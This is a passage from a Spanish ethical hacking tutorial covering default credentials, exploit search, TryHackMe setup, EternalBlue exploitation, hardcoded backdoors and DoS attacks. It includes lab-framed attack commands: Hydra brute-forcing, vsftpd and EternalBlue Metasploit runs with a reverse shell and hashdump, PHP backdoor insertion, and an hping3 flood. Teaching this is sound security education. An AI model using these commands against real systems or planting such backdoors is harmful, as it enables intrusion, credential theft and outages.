Tienes una máquina con IP `192.168.1.100` (por ejemplo, una VM vulnerable como Metasploitable2) y quieres escanearla.

---

#### 🔍 Paso 1: Accede a Nessus

Abre en tu navegador:
👉 `https://localhost:8834`

Inicia sesión con tu usuario.

---

#### 🛠️ Paso 2: Crea un nuevo escaneo

- Haz clic en **New Scan**
- Elige la plantilla **Basic Network Scan**
- Nómbralo, por ejemplo: `Escaneo Metasploitable`
- En **Targets** coloca: `192.168.1.100`
- Guarda y luego dale a **Launch**

---

#### ⏳ Paso 3: Espera el análisis

Esto puede tardar varios minutos. Nessus revisará:

- Qué puertos están abiertos
- Qué servicios están corriendo
- Qué versiones de software hay
- Qué vulnerabilidades conocidas afectan esos servicios

---

#### 📄 Paso 4: Revisa el reporte

Verás un panel con:

- Número de vulnerabilidades por criticidad (críticas, altas, medias...)
- Descripción de cada vulnerabilidad
- CVE asociado (ejemplo: CVE-2011-2523)
- Recomendación para solucionar el problema

---

#### 📦 Ejemplo de resultado:

```
Vulnerability: vsFTPd Backdoor Command Execution
Port: 21/tcp
Severity: Critical
CVE: CVE-2011-2523
Solution: Upgrade to the latest version or disable the service.
```

---

### 📚 Buenas prácticas al analizar vulnerabilidades

✅ Siempre escanea en ambientes autorizados (laboratorios, empresas con permiso).

✅ Usa escaneos autenticados si tienes credenciales del sistema.

✅ Repite los escaneos regularmente para mantener la seguridad.

✅ Prioriza la corrección de vulnerabilidades **críticas y altas**.

---

### 🧠 Conclusión

El **análisis de vulnerabilidades** es uno de los pilares del hacking ético y la ciberseguridad defensiva. Te permite encontrar debilidades antes que lo hagan los atacantes, y tomar acciones para **parchar, cerrar o monitorear** los puntos débiles.

---

[🔼](#índice)

---

## **966. Credenciales por defecto**

### 🔐 ¿Qué son las _credenciales por defecto_?

Las **credenciales por defecto** son **usuarios y contraseñas preconfigurados** por el fabricante de software, hardware o sistemas operativos, que se usan para el **primer acceso** al sistema después de su instalación.

> 📌 Muchos administradores olvidan cambiarlas, lo cual es un **enorme riesgo de seguridad**.

---

### 🎯 ¿Por qué son peligrosas?

- Son **públicas**: están documentadas en manuales, foros, y bases de datos online.
- Se pueden usar para **acceder remotamente** a routers, cámaras IP, sistemas web, bases de datos, etc.
- Son uno de los primeros pasos en la **fase de intrusión** de un pentester o hacker.

---

### 🛠 Ejemplos comunes

| Dispositivo/Servicio | Usuario                                    | Contraseña |
| -------------------- | ------------------------------------------ | ---------- |
| Router TP-Link       | `admin`                                    | `admin`    |
| MySQL                | `root`                                     | _(vacía)_  |
| Tomcat               | `tomcat`                                   | `tomcat`   |
| phpMyAdmin           | `admin`                                    | `admin`    |
| MongoDB              | sin autenticación por defecto (vulnerable) |            |
| Jenkins              | `admin`                                    | `admin`    |

---

### 🔍 ¿Dónde se encuentran estas credenciales?

- En manuales del producto
- En [https://cirt.net/passwords](https://cirt.net/passwords)
- En [https://www.default-password.info/](https://www.default-password.info/)
- En la base de datos de [Exploit-DB](https://www.exploit-db.com/)

---

### 🔎 ¿Cómo se usan en pentesting?

Los hackers o pentesters hacen:

1. **Descubrimiento de servicios**: con Nmap o Netcat.
2. **Identificación del software**: por versión o banners.
3. **Prueba de credenciales por defecto**: para iniciar sesión en esos servicios.

---

### ⚙️ Herramientas útiles para probar credenciales por defecto

| Herramienta      | Descripción                                  |
| ---------------- | -------------------------------------------- |
| **Medusa**       | Fuerza bruta rápida de credenciales          |
| **Hydra**        | Ataques de diccionario contra servicios      |
| **Nmap NSE**     | Algunos scripts prueban logins por defecto   |
| **Metasploit**   | Tiene módulos auxiliares para credenciales   |
| **RouterSploit** | Escáner de routers vulnerables y contraseñas |

---

### 📥 ¿Cómo instalar Hydra? (como ejemplo)

#### En Kali Linux o Ubuntu:

```bash
sudo apt update
sudo apt install hydra -y
```

#### Verifica que se instaló:

```bash
hydra -h
```

---

### ✅ Ejemplo completo: Probar credenciales por defecto con Hydra

Supongamos que detectaste un servicio **Telnet** corriendo en la IP `192.168.1.100`.

#### Paso 1: Crea un diccionario de contraseñas

Guarda este contenido como `users.txt`:

```
admin
root
user
```

Y como `passwords.txt`:

```
admin
1234
password
```

---

#### Paso 2: Lanza Hydra para probar combinaciones

```bash
hydra -L users.txt -P passwords.txt telnet://192.168.1.100
```

- `-L`: lista de usuarios
- `-P`: lista de contraseñas
- `telnet://IP`: protocolo + IP objetivo

#### Salida posible:

```
[21][telnet] host: 192.168.1.100   login: admin   password: admin
```

¡Significa que **entró con credenciales por defecto**!

---

### 🔐 ¿Cómo protegerte?

✅ **Cambia las credenciales por defecto** después de la instalación

✅ **Desactiva servicios innecesarios**

✅ **Habilita autenticación fuerte** (2FA o claves seguras)

✅ **Escanea regularmente** tu red para detectar configuraciones inseguras

✅ Usa herramientas como **Lynis**, **OpenVAS** o **Nessus** para detectarlas

---

### 🧠 Conclusión

Las **credenciales por defecto** son una de las puertas más fáciles para que un atacante entre. Son **conocidas, públicas y fáciles de explotar**. Por eso, los pentesters las revisan en los primeros minutos de cualquier análisis.

> 🔍 ¡Identificarlas y cambiarlas debe ser una de tus prioridades como profesional de ciberseguridad!

---

[🔼](#índice)

---

## **967. Seguridad por obscuridad**

### 🔐 ¿Qué es la Seguridad por Obscuridad?

La **Seguridad por obscuridad** es una estrategia que busca **ocultar detalles** sobre el sistema, red o aplicación para **dificultar que un atacante los entienda o explote**.

> En lugar de reforzar la seguridad mediante mecanismos sólidos, se basa en **"esconder" información sensible** esperando que así sea más difícil de atacar.

---

### 📌 Ejemplo simple

Imagina que pones la **puerta trasera de tu casa detrás de una planta grande** para que nadie la vea. No la reforzaste ni le pusiste una mejor cerradura, **solo la ocultaste**.

---

### 🧠 ¿Dónde se aplica la seguridad por obscuridad?

Algunos ejemplos comunes son:

| Caso                    | Ejemplo                                                             |
| ----------------------- | ------------------------------------------------------------------- |
| Cambio de puerto        | Mover el puerto SSH de 22 a 2222 para que no sea fácil de encontrar |
| Cambiar nombres         | Renombrar `admin.php` a `control-super123.php`                      |
| Ocultar banners         | Quitar información de versión de un servidor web o base de datos    |
| Uso de rutas raras      | Poner `/login-oculto-7283` en lugar de `/login`                     |
| Servidores no indexados | Evitar que se puedan listar archivos con Apache o Nginx             |

---

### ❌ ¿Es una buena práctica?

En ciberseguridad profesional **NO** se recomienda depender solo de seguridad por obscuridad. Es útil como **capa adicional**, pero **nunca debe ser la única defensa**.

#### ❗ Problemas:

- Un atacante experimentado puede **descubrir fácilmente lo que ocultas** (por escaneo, fingerprinting, fuzzing).
- Te da una **falsa sensación de seguridad**.
- **No resiste ataques automatizados ni persistentes**.

---

### ✅ ¿Cuándo puede ayudar?

Aunque no debe ser tu única defensa, puede ser útil para:

- **Detener bots automáticos** que escanean servicios comunes.
- Evitar que usuarios curiosos descubran cosas por accidente.
- Reducir ruido en los logs de seguridad.
- Ganar tiempo extra para detectar y responder.

---

### 🧰 ¿Cómo "instalarla" o aplicarla?

No se instala como un software único, sino que **se implementa en configuraciones**. Aquí algunos ejemplos prácticos:

---

#### 💻 Ejemplo 1: Cambiar puerto SSH (Linux)

```bash
sudo nano /etc/ssh/sshd_config
```

Busca la línea:

```bash
#Port 22
```

Cámbiala a:

```bash
Port 2222
```

Guarda, y reinicia el servicio SSH:

```bash
sudo systemctl restart ssh
```

Así el puerto 22 queda cerrado y el acceso es por otro puerto.

---

#### 🧪 Ejemplo completo: Seguridad por obscuridad en servidor web

Supón que tienes un servidor web Apache con una interfaz de administración en `/admin`.

##### Paso 1: Renombrar la ruta

Cambia la ruta `/admin` a algo como `/panel-secret-89c/` en tu archivo de configuración o en el código backend.

##### Paso 2: Desactiva el listado de directorios (Apache)

Edita tu archivo de configuración (ej. `/etc/apache2/apache2.conf`) y asegúrate que no esté activada esta directiva:

```apache
Options -Indexes
```

Esto evita que al visitar una carpeta sin index, se vean todos los archivos.

##### Paso 3: Elimina banners de Apache

Edita `/etc/apache2/conf-enabled/security.conf` y coloca:

```apache
ServerSignature Off
ServerTokens Prod
```

Esto evita que el navegador o herramientas como `WhatWeb` o `Nmap` detecten la versión del servidor web.

---

#### 🚀 Resultado:

Ahora, tu servidor:

- No revela que está usando Apache 2.4.57 en Ubuntu
- No muestra rutas evidentes como `/admin`
- No permite listar archivos de carpetas
- Usa un puerto diferente para el panel de administración

---

### 🕵️ ¿Y cómo un atacante lo descubre?

Un atacante podría usar:

- **Fuzzing** con herramientas como `ffuf`, `dirb`, `gobuster` para adivinar rutas ocultas.
- **Nmap**, `WhatWeb`, o `Wappalyzer` para hacer fingerprinting del servidor.
- Revisar `robots.txt` o `sitemap.xml` para encontrar rutas ocultas.

Por eso, esconder **no es suficiente**, solo es una barrera menor.

---

### 🧠 Conclusión

La **seguridad por obscuridad**:

✅ Puede añadir una capa mínima de defensa

❌ No reemplaza medidas sólidas como autenticación, control de acceso, cifrado, firewalls, etc.

🔐 Úsala como **complemento**, no como base de seguridad

---

[🔼](#índice)

---

## **968. Búsqueda de exploits**

### 🔍 ¿Qué es la búsqueda de exploits?

Un **exploit** es un código o técnica que aprovecha una **vulnerabilidad** en un software, servicio o sistema para **lograr un acceso no autorizado**, **elevar privilegios** o **interrumpir un sistema**.

> 🔎 La búsqueda de exploits es el proceso de **localizar** herramientas o códigos ya existentes que aprovechan vulnerabilidades específicas detectadas en un sistema objetivo.

---

### 📘 ¿Cuándo se busca un exploit?

Después de un escaneo o análisis de vulnerabilidades con herramientas como:

- Nmap (con `-sV`)
- Nessus
- OpenVAS
- Nikto
- WhatWeb

...recibes información como:

➡️ versión del software

➡️ sistema operativo

➡️ puertos abiertos

➡️ servicios corriendo

Con esta información, puedes buscar si existen **exploits públicos** que aprovechen esas versiones.

---

### 🧰 Herramientas para buscar exploits

Aquí tienes las más comunes y fáciles de usar:

| Herramienta                                                        | ¿Qué hace?                                                                                                  |
| ------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------- |
| 🔎 [Searchsploit](https://github.com/offensive-security/exploitdb) | Busca exploits en la base de datos local de Exploit-DB                                                      |
| 🌐 Exploit-DB                                                      | Sitio web con miles de exploits públicos ([https://www.exploit-db.com](https://www.exploit-db.com))         |
| ⚙️ Metasploit Framework                                            | Puedes buscar módulos de exploits directamente desde su consola                                             |
| 🐍 GitHub                                                          | Mucho código PoC se sube ahí; busca con palabras clave                                                      |
| 💣 CVE Details                                                     | Muestra vulnerabilidades públicas por software y versión ([https://cvedetails.com](https://cvedetails.com)) |

---

### 🛠️ Instalación de Searchsploit

#### 📦 Para Kali Linux o Parrot (¡ya viene preinstalado!)

Si no está, instala con:

```bash
sudo apt update
sudo apt install exploitdb
```

#### Para otras distros (como Ubuntu)

```bash
git clone https://github.com/offensive-security/exploitdb.git /opt/exploitdb
ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```

Verifica que funcione:

```bash
searchsploit
```

Actualiza la base de datos:

```bash
searchsploit -u
```

---

### 🧪 Ejemplo completo de búsqueda de exploit

#### 🧠 Supongamos:

Has hecho un escaneo con Nmap y encontraste esto:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

Sabes que `vsftpd 2.3.4` es vulnerable. Vamos a buscar un exploit.

---

#### ✅ Paso 1: Buscar con `searchsploit`

```bash
searchsploit vsftpd 2.3.4
```

📌 Resultado:

```
vsftpd 2.3.4 - Backdoor Command Execution
EDB-ID: 49757
Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
```

¡Encontraste un exploit!

---

#### ✅ Paso 2: Revisar el código del exploit

```bash
cat /usr/share/exploitdb/exploits/unix/remote/49757.py
```

Este exploit permite obtener una shell reversa si el puerto backdoor está activo.

---

#### ✅ Paso 3: Ejecutar el exploit (solo en laboratorio)

> ⚠️ **Advertencia:** Esto **debe hacerse solo en entornos de pruebas controlados**, como Metasploitable2 o una VM vulnerable.

```bash
python3 /usr/share/exploitdb/exploits/unix/remote/49757.py <IP-del-objetivo>
```

---

#### ✅ Alternativa: Buscar desde Metasploit

Abre Metasploit con:

```bash
msfconsole
```

Y busca:

```bash
search vsftpd 2.3.4
```

Resultado:

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

Cárgalo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP>
run
```

¡Y listo! Si el exploit funciona, tendrás una shell remota.

---

### 🧠 Consejos útiles para buscar exploits

- Usa nombres exactos + versiones (`vsftpd 2.3.4`, `Apache 2.4.49`, `WordPress 5.7`)
- Añade `CVE-XXXX-XXXX` si tienes un CVE (por ejemplo: `searchsploit CVE-2021-41773`)
- Consulta sitios como:

  - [https://www.exploit-db.com](https://www.exploit-db.com)
  - [https://packetstormsecurity.com](https://packetstormsecurity.com)
  - [https://github.com](https://github.com)

---

### ✅ Resumen

| Elemento                 | Descripción                                                         |
| ------------------------ | ------------------------------------------------------------------- |
| ¿Qué es?                 | Buscar código que aprovecha vulnerabilidades conocidas              |
| ¿Cuándo hacerlo?         | Después de descubrir software, servicios o versiones vulnerables    |
| Herramientas principales | `searchsploit`, Exploit-DB, GitHub, Metasploit                      |
| ¿Dónde instalar?         | `searchsploit` en Kali o Ubuntu con `apt` o `git clone`             |
| Ejemplo práctico         | Buscar y explotar `vsftpd 2.3.4` usando `searchsploit` y Metasploit |

---

[🔼](#índice)

---

## **969. Configuración de TryHackMe**

### 🧠 ¿Qué es TryHackMe?

**TryHackMe** es una plataforma en línea para **aprender ciberseguridad practicando** en entornos reales y seguros. Puedes aprender desde cero o practicar temas avanzados como hacking ético, redes, análisis de vulnerabilidades, explotación, forense, etc.

> 🔐 Simula escenarios reales donde tú juegas el papel de atacante o defensor.

---

### 🛠️ ¿Qué necesitas para empezar?

#### ✅ Requisitos básicos:

- Una computadora con navegador moderno (Chrome, Firefox, Brave…)
- Conexión a internet
- Cuenta gratuita en [https://tryhackme.com](https://tryhackme.com)

> 💡 No necesitas instalar TryHackMe, pero **sí necesitas una forma de conectarte a sus laboratorios virtuales.**

---

### 🔌 ¿Cómo acceder a los laboratorios de TryHackMe?

#### Tienes 2 opciones:

| Método           | ¿Qué es?                                                          |
| ---------------- | ----------------------------------------------------------------- |
| ✅ **OpenVPN**   | Te conectas desde tu propia máquina a la red privada de TryHackMe |
| 🌐 **AttackBox** | Máquina virtual en el navegador (no necesitas instalar nada)      |

---

### 🧪 Vamos a instalar y configurar TryHackMe paso a paso

---

### 🔧 OPCIÓN 1: Configuración con OpenVPN (para Linux/Windows)

#### 🔹 Paso 1: Crear cuenta

1. Ve a 👉 [https://tryhackme.com](https://tryhackme.com)
2. Haz clic en **"Join Now"** o **"Sign Up"**
3. Completa con tu correo, nombre de usuario y contraseña

---

#### 🔹 Paso 2: Instalar OpenVPN

##### ▶️ En **Linux (Ubuntu/Kali):**

```bash
sudo apt update
sudo apt install openvpn -y
```

##### ▶️ En **Windows:**

1. Descarga OpenVPN desde: [https://openvpn.net/community-downloads/](https://openvpn.net/community-downloads/)
2. Instálalo con permisos de administrador

---

#### 🔹 Paso 3: Descargar tu archivo `.ovpn`

1. En TryHackMe, ve a **"Access"** (parte superior)
2. Elige **"Download My Configuration File"**
3. Guarda el archivo `.ovpn` en tu máquina

---

#### 🔹 Paso 4: Conectarse a la VPN

##### ▶️ En Linux:

```bash
sudo openvpn <nombre-del-archivo>.ovpn
```

Ejemplo:

```bash
sudo openvpn tryhackme_openvpn.ovpn
```

Deberías ver líneas que dicen `Initialization Sequence Completed`. Eso indica que estás dentro de la red de TryHackMe.

##### ▶️ En Windows:

1. Haz clic derecho en el icono de OpenVPN en la barra
2. Carga el archivo `.ovpn`
3. Conéctate (debería salir una notificación de conexión exitosa)

---

### 🌐 OPCIÓN 2: Usar **AttackBox** (sin instalar nada)

Si no quieres instalar VPN, puedes usar el **AttackBox** desde el navegador:

1. Abre una sala ("room") en TryHackMe
2. Haz clic en **"Start AttackBox"** (esquina superior derecha)
3. Se abrirá una terminal completa dentro del navegador (espera 10-20 seg)

💡 Ideal si estás en una laptop con poca RAM o en Windows sin permisos de administrador.

---

### 🧪 Ejemplo completo: Iniciando tu primer reto en TryHackMe

#### Vamos a completar la sala **"Introduction to Cyber Security"** (ideal para principiantes):

1. En el buscador de TryHackMe escribe: `Introduction to Cyber Security`
2. Haz clic en **"Join Room"**
3. Luego haz clic en **"Start Machine"** (activa la máquina virtual vulnerable)
4. Conéctate con VPN o activa el AttackBox
5. Comienza a responder las preguntas paso a paso en el panel lateral

📌 Algunas preguntas requieren usar `nmap`, `ping`, `traceroute`, etc.

---

### 💡 Consejos

| Consejo                        | Explicación                                                      |
| ------------------------------ | ---------------------------------------------------------------- |
| 💬 Usa la comunidad            | Puedes unirte al Discord oficial o leer los foros si te atoras   |
| ✅ Empieza por rutas guiadas   | Usa la Learning Path: "Complete Beginner" o "Pre Security"       |
| 💻 Toma notas mientras avanzas | Usa Obsidian o OneNote para guardar comandos y explicaciones     |
| 🔁 Puedes repetir las salas    | Ideal para reforzar temas como escaneo de red, hacking web, etc. |
| 🧠 Marca tus favoritas         | Guarda las salas que más te gusten para repasarlas después       |

---

### 🧠 Resumen

| Elemento                 | Detalle                                                     |
| ------------------------ | ----------------------------------------------------------- |
| ¿Qué es TryHackMe?       | Plataforma para aprender ciberseguridad con práctica real   |
| ¿Requiere instalación?   | No, pero puedes usar VPN o AttackBox para conectarte        |
| Métodos de conexión      | OpenVPN (más potente) o AttackBox (fácil y sin instalar)    |
| Primera sala recomendada | "Introduction to Cyber Security" o "Complete Beginner" path |

---

[🔼](#índice)

---

## **970. Explotación de servicios en Windows**

### 🧠 ¿Qué es la explotación de servicios en Windows?

Es el proceso de **identificar vulnerabilidades** en servicios que se ejecutan en un sistema operativo Windows (por ejemplo, SMB, RDP, IIS, RPC, etc.) y luego **aprovechar esas debilidades para obtener acceso no autorizado** o elevar privilegios.

> 📌 Muchos servicios en Windows, si no están actualizados o configurados correctamente, pueden ser una **puerta de entrada para atacantes**.

---

### 🧩 Ejemplos comunes de servicios vulnerables en Windows

| Servicio | Descripción                      | Vulnerabilidades famosas               |
| -------- | -------------------------------- | -------------------------------------- |
| SMB      | Comparte archivos entre máquinas | EternalBlue (MS17-010)                 |
| RDP      | Escritorio remoto                | BlueKeep (CVE-2019-0708)               |
| IIS      | Servidor web de Microsoft        | Mal configuraciones o buffer overflows |
| RPC      | Comunicación remota              | DCOM, MS03-026                         |

---

### 🛠️ ¿Cómo se instala el entorno para pruebas?

#### ✅ Necesitas:

1. Un sistema con Kali Linux o Parrot OS (puede ser una VM)
2. Una máquina vulnerable con Windows (como **Metasploitable 3** o **Windows 7 sin parches**)
3. Herramientas como:

   - `nmap`
   - `msfconsole` (Metasploit Framework)
   - `exploit-db` (base de datos de exploits)
   - `rpcclient`, `smbclient`, etc.

> ⚠️ **Nunca intentes explotar sistemas reales sin permiso.** Solo en entornos de laboratorio o máquinas diseñadas para eso (TryHackMe, Hack The Box, VulnHub).

---

### 🧪 Ejemplo práctico: Explotar SMB en Windows con EternalBlue

Este es uno de los casos más famosos de explotación en Windows.

---

#### 🔹 Paso 1: Detectar el servicio con `nmap`

```bash
nmap -p 445 --script smb-os-discovery <IP_VICTIMA>
```

Ejemplo:

```bash
nmap -p 445 --script smb-os-discovery 10.10.10.4
```

Salida:

```
445/tcp open  microsoft-ds
OS: Windows 7 Professional 7601 Service Pack 1
```

➡️ ¡Confirmamos que SMB está corriendo!

---

#### 🔹 Paso 2: Verificar si es vulnerable

Usamos el script `vuln` de Nmap:

```bash
nmap --script smb-vuln-ms17-010 -p445 10.10.10.4
```

Salida esperada:

```
VULNERABLE:
Microsoft SMBv1 vulnerability: MS17-010
```

✅ ¡La máquina es vulnerable a EternalBlue!

---

#### 🔹 Paso 3: Iniciar Metasploit

```bash
msfconsole
```

Buscar el exploit:

```bash
search eternalblue
```

Seleccionamos:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Configurar opciones:

```bash
set RHOSTS 10.10.10.4
set LHOST 10.10.14.9     # Tu IP de atacante (ifconfig)
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Lanzar el exploit:

```bash
exploit
```

📌 Si todo sale bien, deberías tener una **shell Meterpreter**:

```
meterpreter >
```

Ya estás **dentro de la máquina Windows como SYSTEM**.

---

#### 🔹 Paso 4: Post-explotación

Una vez dentro, puedes:

```bash
sysinfo
getuid
hashdump           # Extraer hashes
shell              # Acceder al cmd
```

---

### 🧠 Otras herramientas útiles para servicios en Windows

| Herramienta    | Uso                                                      |
| -------------- | -------------------------------------------------------- |
| `smbclient`    | Acceder a recursos compartidos SMB                       |
| `rpcclient`    | Enumerar usuarios vía RPC                                |
| `crackmapexec` | Enumeración y fuerza bruta en SMB                        |
| `winPEAS`      | Escalada de privilegios post-explotación                 |
| `BloodHound`   | Visualización de relaciones en dominios Active Directory |

---

### 🧠 Resumen general

| Paso                          | Herramientas                      | Objetivo                                |
| ----------------------------- | --------------------------------- | --------------------------------------- |
| Reconocimiento                | `nmap`, `enum4linux`, `rpcclient` | Identificar servicios y configuraciones |
| Detección de vulnerabilidades | `nmap --script`, `searchsploit`   | Ver si son explotables                  |
| Explotación                   | `Metasploit`, exploits manuales   | Obtener acceso                          |
| Post-explotación              | `meterpreter`, `winPEAS`          | Elevar privilegios, recolectar info     |

---

### ✅ Conclusión

Explotar servicios en Windows es una habilidad clave en hacking ético. Pero siempre debe hacerse en entornos controlados o con permiso. Practica en plataformas como:

- TryHackMe: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue) (explotación EternalBlue)
- Hack The Box
- VulnHub
- Máquina virtual vulnerable Metasploitable 3

---

[🔼](#índice)

---

## **971. Harcoded backdoor**

### 🧠 ¿Qué es un Hardcoded Backdoor?

Un **Hardcoded Backdoor** (puerta trasera codificada) es una **funcionalidad maliciosa o secreta incrustada directamente en el código fuente** de una aplicación, sistema operativo o firmware, **que permite el acceso no autorizado**.

#### 📌 “Hardcoded” significa **codificado permanentemente**: el acceso (contraseña, usuario o comando secreto) **no puede cambiarse fácilmente**, ya que está **escrito directamente en el código fuente**.

---

### 🕳️ ¿Qué puede hacer una backdoor?

Un backdoor puede:

- Saltarse autenticaciones.
- Brindar acceso remoto.
- Ejecutar comandos como administrador.
- Dar privilegios elevados.
- Descargar/exfiltrar archivos.

---

### 🧪 Ejemplos reales de Hardcoded Backdoor

| Caso real             | Descripción                                                                                                    |
| --------------------- | -------------------------------------------------------------------------------------------------------------- |
| **D-Link (2013)**     | Un firmware de routers tenía una cadena secreta que permitía entrar al panel de administración sin contraseña. |
| **Fortinet (2016)**   | Productos FortiOS tenían un usuario oculto con contraseña hardcodeada.                                         |
| **Android Backdoors** | Algunos dispositivos chinos venían con backdoors preinstalados.                                                |

---

### 📦 ¿Cómo se instala un hardcoded backdoor?

Normalmente lo instala:

- **Un desarrollador malicioso.**
- **Un atacante que compromete el código fuente.**
- **Un fabricante que quiere acceso oculto.**
- O incluso **por error** (dejar una cuenta de prueba sin remover).

---

### 💻 Ejemplo didáctico: Hardcoded backdoor en una app de login

#### 🧾 Paso 1: Código vulnerable

Supongamos un sistema simple en Python:

```python
def login(usuario, clave):
    # Backdoor hardcodeada
    if usuario == "admin_backdoor" and clave == "12345":
        return "¡Acceso permitido como administrador oculto!"

    # Autenticación real
    if usuario == "usuario1" and clave == "claveSegura123":
        return "Acceso permitido como usuario legítimo"
    else:
        return "Acceso denegado"

# Simulación de inicio de sesión
print(login("admin_backdoor", "12345"))
```

#### 🔥 ¿Qué hace este código?

- Permite el acceso oculto si se usan `"admin_backdoor"` y `"12345"`, **sin importar los usuarios válidos**.
- Ese acceso no aparece en ninguna lista de usuarios.
- Un auditor normal no lo detectaría fácilmente.

---

### 🛡️ ¿Cómo detectar hardcoded backdoors?

1. **Revisar el código fuente** (si está disponible).
2. **Auditoría de binarios/firma digital**.
3. **Escanear con herramientas de SAST (Static Application Security Testing)**.
4. **Revisar el firmware o ensamblado en hex para buscar cadenas sospechosas.**
5. **Escanear tráfico de red** para ver si hay conexiones inesperadas.

---

### 🔧 ¿Cómo evitarlo?

- Usa **revisión de código (code review)**.
- Implementa **firmas digitales** en el software.
- Usa **autenticación segura** sin credenciales estáticas.
- Nunca incluyas contraseñas o cuentas de prueba en producción.
- Usa herramientas de detección como:

  - [Ghidra](https://ghidra-sre.org/)
  - [Radare2](https://rada.re/)
  - [Flawfinder](https://dwheeler.com/flawfinder/)
  - [Binwalk](https://github.com/ReFirmLabs/binwalk) (para firmware)

---

### 🧪 Ejemplo completo: Insertar una backdoor en una aplicación PHP

Supón que un sitio tiene este código de login en `login.php`:

```php
<?php
$user = $_POST['usuario'];
$pass = $_POST['clave'];

if ($user == "admin" && $pass == "admin123") {
    echo "Acceso permitido";
} else {
    echo "Acceso denegado";
}
?>
```

Un atacante con acceso al servidor podría modificar el código y **agregar una backdoor así**:

```php
<?php
$user = $_POST['usuario'];
$pass = $_POST['clave'];

// BACKDOOR hardcoded
if ($user == "root" && $pass == "toor") {
    echo "Acceso permitido como root oculto";
    exit();
}

if ($user == "admin" && $pass == "admin123") {
    echo "Acceso permitido";
} else {
    echo "Acceso denegado";
}
?>
```

⚠️ Esto permitiría a quien conozca la combinación `"root"` / `"toor"` acceder **sin dejar rastro en la lógica legítima**.

---

### 📌 Conclusión

| Concepto                  | Explicación                                                                  |
| ------------------------- | ---------------------------------------------------------------------------- |
| ❓ ¿Qué es?               | Una funcionalidad secreta codificada que permite el acceso sin autorización. |
| 🧠 ¿Por qué es peligroso? | Porque puede pasar desapercibida por años.                                   |
| 🔍 ¿Cómo se detecta?      | Revisando código, tráfico y firmwares.                                       |
| 🚫 ¿Cómo se previene?     | Buenas prácticas de desarrollo seguro, auditorías y SAST.                    |

---

[🔼](#índice)

---

## **972. Tipos de ataques DOS**

### 🧠 ¿Qué es un ataque DoS?

Un **ataque de Denegación de Servicio (DoS)** es un intento malicioso de **interrumpir el funcionamiento normal de un sistema, red o servicio**, **agotando sus recursos** como CPU, memoria, ancho de banda o conexiones.

> ❌ El objetivo no es robar datos, sino hacer que el servicio **no esté disponible para usuarios legítimos**.

---

### ⚠️ ¿Es legal hacer ataques DoS?

❗ **No**, a menos que se haga en un entorno **controlado** como un laboratorio o con **permiso explícito** (por ejemplo, pruebas de estrés a tu propio servidor o en máquinas virtuales tipo TryHackMe, Hack The Box, etc.).

---

### 🧨 TIPOS PRINCIPALES DE ATAQUES DoS

#### 1. **Flooding (Inundación)**

Envía una enorme cantidad de datos al objetivo para saturarlo.

- **ICMP Flood (Ping Flood):** Enviar demasiados `ping` al host.
- **UDP Flood:** Enviar paquetes UDP falsos a puertos aleatorios.
- **TCP SYN Flood:** Abre muchas conexiones TCP a medio completar.

💬 **Ejemplo:** como si mil personas tocan el timbre de tu casa sin parar.

---

#### 2. **Slowloris**

Conecta al servidor web y **envía solicitudes HTTP muy lentamente**, manteniendo la conexión abierta para agotar los hilos del servidor.

💬 **Ejemplo:** como si alguien empieza a hablar muy lento por teléfono y no cuelga.

---

#### 3. **Amplification Attack (Ataque de amplificación)**

Usa servidores intermedios (DNS, NTP, etc.) para **multiplicar el tráfico hacia la víctima**.

- Envían pequeñas solicitudes con IP falsificada (spoofed), y el servidor de rebote responde con un mensaje grande al objetivo.

💬 **Ejemplo:** le dices a cien personas que alguien más pidió cien pizzas, y todos se las mandan a su casa.

---

#### 4. **Application Layer DoS**

Ataca directamente a la **aplicación** con muchas solicitudes válidas, como formularios web, búsquedas, login, etc.

💬 **Ejemplo:** usar bots para hacer búsquedas infinitas en un sitio hasta que colapse.

---

#### 5. **Ataques de recursos limitados**

Explotan debilidades específicas en software para **consumir CPU, memoria o disco**.

---

### 🔧 Herramientas más comunes para pruebas DoS (solo en entornos éticos)

| Herramienta                     | Descripción                                         |
| ------------------------------- | --------------------------------------------------- |
| **Hping3**                      | Envío de paquetes TCP/UDP/ICMP personalizados       |
| **LOIC** (Low Orbit Ion Cannon) | Herramienta gráfica de ataque DoS en red            |
| **Slowloris**                   | Ataca servidores web                                |
| **GoldenEye**                   | HTTP DoS para aplicaciones web                      |
| **Metasploit**                  | Tiene módulos auxiliares para realizar ataques DoS  |
| **Nmap**                        | Puede detectar vulnerabilidades DoS con scripts NSE |

---

### 🖥️ ¿Cómo se instala una herramienta de DoS (por ejemplo, hping3)?

#### 🐧 En Linux (Debian/Kali/Ubuntu):

```bash
sudo apt update
sudo apt install hping3
```

Verifica la instalación:

```bash
hping3 --help
```

---

### 💣 EJEMPLO COMPLETO: Ataque DoS con hping3 (ICMP Flood)

⚠️ **Haz esto solo en tu propia red o entorno virtual. Nunca contra servidores reales sin permiso.**

#### 🧪 Entorno de prueba:

- PC atacante: Kali Linux
- PC víctima: Metasploitable2 o una máquina virtual en VirtualBox

#### 🔨 Paso a paso:

##### 1. Abre la terminal en Kali

##### 2. Encuentra la IP del objetivo:

```bash
ping 192.168.56.103  # Ejemplo de IP de la víctima
```

##### 3. Ejecuta el ataque DoS tipo ICMP Flood:

```bash
sudo hping3 --icmp -d 120 -C 8 -i u1000 192.168.56.103
```

🔍 ¿Qué hace cada parámetro?

- `--icmp`: usa protocolo ICMP (ping)
- `-d 120`: tamaño del paquete en bytes
- `-C 8`: tipo de mensaje ICMP
- `-i u1000`: intervalo entre paquetes (microsegundos)
- `192.168.56.103`: IP de la víctima

##### 4. Observa la carga en la víctima

Puedes abrir un monitor de recursos (`top`, `htop` o `task manager`) para ver cómo se consume el CPU/red.

---

### 🛡️ ¿Cómo mitigar ataques DoS?

- Configurar **firewalls (iptables, pfSense)**
- Usar **rate limiting** (límite por IP)
- Monitorear recursos con **IDS/IPS**
- Configurar bien **servidores web (Apache, NGINX)**
- Activar protecciones de **SYN cookies** y bloquear paquetes falsificados
- Usar **CDN** con mitigación de DoS (Cloudflare, Akamai)

---

